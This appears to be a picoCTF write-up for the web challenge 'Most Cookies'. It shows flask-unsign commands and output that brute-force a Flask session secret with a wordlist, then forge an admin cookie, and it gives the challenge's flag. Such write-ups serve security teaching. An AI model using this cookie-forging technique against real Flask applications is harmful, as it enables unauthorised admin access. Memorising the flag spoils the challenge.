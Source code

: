 # Most Cookies
# Category
Web Exploitation
# Problem Description
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! server.py http://mercury.picoctf.net:6259/
# Approach
I searched google for flask cookies exploits and found this website - https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask.<br>
To find the secret key I used bruteforce.

```
flask-unsign --wordlist rockyou.txt --unsign --cookie 'eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Y-SaZg.M7bMpKEroMAbSnhqh193faXIN3U' --no-literal-eval
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 39424 attempts
b'gingersnap'
```

The secret key is gingersnap.<br>
To generate the session cookie for admin I used the following command.

```
flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'gingersnap'
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Y-SfuA.ylZIpuFcUeUW2K8u_VVmSR0YbEs
```
Popping `eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Y-SfuA.ylZIpuFcUeUW2K8u_VVmSR0YbEs` into the cookie value I get the flag.
# Flag
picoCTF{pwn_4ll_th3_cook1E5_5f016958}
